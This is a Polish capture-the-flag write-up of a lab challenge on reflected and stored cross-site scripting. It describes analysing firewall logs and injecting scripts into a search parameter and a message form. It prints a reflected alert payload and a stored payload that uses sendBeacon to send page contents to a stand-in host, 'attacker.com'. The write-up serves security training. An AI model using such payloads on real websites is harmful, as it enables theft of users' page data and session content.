




# 🎄 Dzień 11 - Web Exploitation: Merry XSSMas

## 📝 Opis zadania
*Jedenasty dzień wyzwania koncentrował się na lukach typu Cross-Site Scripting (XSS). Zadanie polegało na identyfikacji punktów wejścia w aplikacji webowej, które nieprawidłowo walidują dane użytkownika, umożliwiając wykonanie złośliwego kodu JavaScript w przeglądarce. Przeanalizowano różnice między atakiem typu Reflected (odbitym) a Stored (utrwalonym).*

## 🔍 Kroki do celu
1. **Rekonesans i analiza logów systemowych**:
Analizę rozpoczęto od przejrzenia sekcji System Logs. Zauważono, że mechanizmy bezpieczeństwa (firewall) rejestrują próby wstrzyknięcia skryptów w parametrze wyszukiwania `(search)`. Logi ujawniły nie tylko adresy IP, ale także konkretne fragmenty zablokowanych ładunków (payloadów).]

2. **Eksploitacja Reflected XSS**:
Zidentyfikowano, że parametr search w adresie URL bezpośrednio renderuje dane na stronie wynikowej bez odpowiedniego filtrowania (escaping). Testy potwierdziły, że aplikacja jest podatna na Reflected XSS, co pozwala na wykonanie skryptu poprzez odpowiednio spreparowany link.
```
Bash
# Przykład wektora ataku Reflected XSS zidentyfikowanego w logach
/?search=<script>alert('Potential XSS Detected')</script>
```
3. **Eksploitacja Stored XSS**:
Kolejnym etapem było sprawdzenie formularza wysyłania wiadomości. W przeciwieństwie do wyszukiwarki, system logów nie zarejestrował ostrzeżeń przy publikacji wiadomości z ładunkiem JavaScript. Skrypt został trwale zapisany na serwerze i wykonany automatycznie przy przeglądaniu listy wiadomości. Pozwoliło to na ominięcie filtrów i zdobycie drugiej flagi.
```
JavaScript
# Payload użyty w wiadomości do weryfikacji Stored XSS
<body onpagehide="navigator.sendBeacon('//attacker.com/', document.body.innerHTML)">
```

## 📸 Dokumentacja wizualna

*Panel System Logs pokazujący historię wykrytych incydentów XSS.*

*Skuteczne wywołanie alertu w przeglądarce jako dowód podatności Reflected.*

*Przejęcie flagi po umieszczeniu utrwalonego kodu w systemie wiadomości McSkiddy.*

*oraz w systemie wyszukiwania wiadomosci.*

## 🛠️ Użyte narzędzia
* JavaScript Payloads – techniki wstrzykiwania kodu (portswigger)
* System Logs Analysis – analiza logów bezpieczeństwa serwera.
